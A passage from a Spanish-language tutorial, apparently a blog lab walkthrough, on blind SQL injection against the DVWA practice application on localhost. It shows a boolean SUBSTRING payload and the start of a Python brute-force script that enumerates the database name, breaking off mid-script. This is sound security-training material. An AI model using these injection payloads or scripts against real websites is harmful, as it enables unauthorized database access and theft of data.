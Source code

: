 Podemos ver que nos dice el valor false, por lo que el primer carácter de la base de datos actual no es "a", ahora probaremos con "d":

`1' AND (SELECT SUBSTRING(database(),1,1))='d' -- -`

![dbd](/assets/images/DVWA-SQLi/SQLiBlind-easy/database_d.png)

Y vemos que nos responde la respuesta verdadera, por lo que ya sabemos que inicia con la letra "d".

En este punto tendríamos que ir recorriendo el valor de la función SUBSTRING() para ir enumerando los siguientes caracteres, pero como esto es tardado manualmente, haremos un script para que nos automatice el fuzzing.

```python

#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#CTRL+C
signal.signal(signal.SIGINT, def_handler)

main_url = "http://localhost/DVWA/vulnerabilities/sqli_blind/"
characters = string.ascii_lowercase + string.digits + "-_:@!$%&()*+/;<=>?[\]^{|}.~"

def makeRequest():
    
    database = ""

    p1 = log.progress("Enumerar base de datos")
    p1.status("Iniciando ataque de fuerza bruta para enumerar el nombre de la base de datos actual")

    time.sleep(2)

    p2 = log.progress("database name")

    for position in range(1,5):

        for character in characters:
            url = "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1'+AND+(SELECT+SUBSTRING(database(),%d,1))='%s'+--+-&Submit=Submit" % (position, character)

            cookies = {
                'PHPSESSID': "2nn0125e6gmk861ht73vfl74p0",
                'security': "low"
            }
```